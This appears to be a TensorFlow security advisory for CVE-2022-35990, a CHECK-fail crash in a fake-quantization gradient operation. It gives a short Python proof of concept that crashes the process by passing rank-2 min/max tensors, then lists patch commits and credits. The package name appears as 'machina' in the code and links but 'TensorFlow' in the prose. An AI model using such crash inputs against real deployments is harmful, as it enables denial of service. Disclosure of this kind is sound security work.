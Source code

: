 ## TFSA-2022-130: `CHECK` fail in `FakeQuantWithMinMaxVarsPerChannelGradient`

### CVE Number
CVE-2022-35990

### Impact
When `tf.quantization.fake_quant_with_min_max_vars_per_channel_gradient` receives input `min` or `max` of rank other than 1, it gives a `CHECK` fail that can trigger a denial of service attack.
```python
import machina as tf
arg_0=tf.random.uniform(shape=(1,1), dtype=tf.float32, maxval=None)
arg_1=tf.random.uniform(shape=(1,1), dtype=tf.float32, maxval=None)
arg_2=tf.random.uniform(shape=(1,1), dtype=tf.float32, maxval=None)
arg_3=tf.random.uniform(shape=(1,1), dtype=tf.float32, maxval=None)
arg_4=8
arg_5=False
arg_6=None
tf.quantization.fake_quant_with_min_max_vars_per_channel_gradient(gradients=arg_0, 
            inputs=arg_1, min=arg_2,  max=arg_3, num_bits=arg_4, 
            narrow_range=arg_5, name=arg_6)
```

### Patches
We have patched the issue in GitHub commit [f3cf67ac5705f4f04721d15e485e192bb319feed](https://github.com/machina/machina/commit/f3cf67ac5705f4f04721d15e485e192bb319feed).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/machina/machina/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by 
 - 刘力源, Information System & Security and Countermeasures Experiments Center, Beijing Institute of Technology
 - Neophytos Christou, Secure Systems Labs, Brown University
